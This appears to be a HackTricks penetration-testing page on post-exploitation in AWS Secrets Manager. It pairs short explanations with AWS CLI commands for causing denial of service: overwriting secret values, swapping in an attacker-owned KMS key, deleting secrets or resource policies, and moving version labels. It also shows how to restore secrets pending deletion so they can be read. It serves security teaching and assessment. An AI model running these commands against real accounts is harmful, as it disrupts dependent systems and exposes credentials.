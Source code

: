 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

For more information check:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

The **secrets themself are sensitive information**, [check the privesc page](../aws-privilege-escalation/aws-secrets-manager-privesc.md) to learn how to read them.

### DoS Change Secret Value

Changing the value of the secret you could **DoS all the system that depends on that value.**

> [!WARNING]
> Note that previous values are also stored, so it's easy to just go back to the previous value.

```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
    --secret-id MyTestSecret \
    --secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```

### DoS Change KMS key

If the attacker has the secretsmanager:UpdateSecret permission, they can configure the secret to use a KMS key owned by the attacker. That key is initially set up in such a way that anyone can access and use it, so updating the secret with the new key is possible. If the key was not accessible, the secret could not be updated.

After changing the key for the secret, the attacker modifies the configuration of their key so that only they can access it. This way, in the subsequent versions of the secret, it will be encrypted with the new key, and since there is no access to it, the ability to retrieve the secret would be lost.

It is important to note that this inaccessibility will only occur in later versions, after the content of the secret changes, since the current version is still encrypted with the original KMS key.

```bash
aws secretsmanager update-secret \
    --secret-id MyTestSecret \
    --kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```

### DoS Deleting Secret

The minimum number of days to delete a secret are 7

```bash
aws secretsmanager delete-secret \
    --secret-id MyTestSecret \
    --recovery-window-in-days 7
```

## secretsmanager:RestoreSecret

It is possible to restore a secret, which allows the restoration of secrets that have been scheduled for deletion, since the minimum deletion period for secrets is 7 days and the maximum is 30 days. Together with the secretsmanager:GetSecretValue permission, this makes it possible to retrieve their contents.

To recover a secret that is in the process of being deleted, you can use the following command:
```bash
aws secretsmanager restore-secret \
  --secret-id <Secret_Name>
```

## secretsmanager:DeleteResourcePolicy

This action allows deleting the resource policy that controls who can access a secret. This could lead to a DoS if the resource policy was configured to allow access to a specific set of users.

To delete the resource policy:
```bash
aws secretsmanager delete-resource-policy \
  --secret-id <Secret_Name>
```

## secretsmanager:UpdateSecretVersionStage

The states of a secret are used to manage versions of a secret. AWSCURRENT marks the active version that applications use, AWSPREVIOUS keeps the previous version so that you can roll back if necessary, and AWSPENDING is used in the rotation process to prepare and validate a new version before making it the current one.

Applications always read the version with AWSCURRENT. If someone moves that label to the wrong version, the apps will use invalid credentials and may fail.

AWSPREVIOUS is not used automatically. However, if AWSCURRENT is removed or reassigned incorrectly, it may appear that everything is still running with the previous version.

```bash
aws secretsmanager update-secret-version-stage \
  --secret-id <your-secret-name-or-arn> \
  --version-stage AWSCURRENT \
  --move-to-version-id <target-version-id> \
  --remove-from-version-id <previous-version-id>
```

{{#include ../../../banners/hacktricks-training.md}}




